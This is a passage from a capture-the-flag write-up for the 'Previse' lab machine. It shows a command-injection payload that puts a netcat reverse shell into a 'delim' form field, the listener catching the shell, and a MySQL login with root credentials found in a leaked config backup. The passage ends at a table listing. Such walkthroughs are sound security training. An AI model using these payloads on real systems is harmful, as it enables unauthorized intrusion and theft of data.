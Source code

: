 ```
delim=comma; nc 10.10.14.70 1234 -c bash
```

### Connecting with Netcat
Before sending the POST request with the malicious connection request, we must listen for incoming connections on port 1234, as specified, which is done with [`nc -nlp 1234`](https://explainshell.com/explain?cmd=nc+-nlp+1234). After doing so, the post request may be sent... Looks like Previse has Netcat installed after all — basic shell access has been achieved!
```
┌[slak]─[tun0:10.10.14.70]─[/home/slak/reports/previse/siteBackup]
└>> nc -nlp 1234
listening on [any] 1234 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.11.104] 48236
```

Executing `whoami` yields `www-data`, as expected.

## Searching for USER, SYSTEM Flags
### Connecting to the SQL Database
The primary incentive behind gaining shell access was to connect to the SQL database using the `root:mySQL_p@ssw0rd!:)` credential set found in the site backup under config.php. Let's see if those credentials work as expected:
```sql
mysql -u root -p
Enter password: mySQL_p@ssw0rd!:)

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1434
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use previse;
use previse;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
```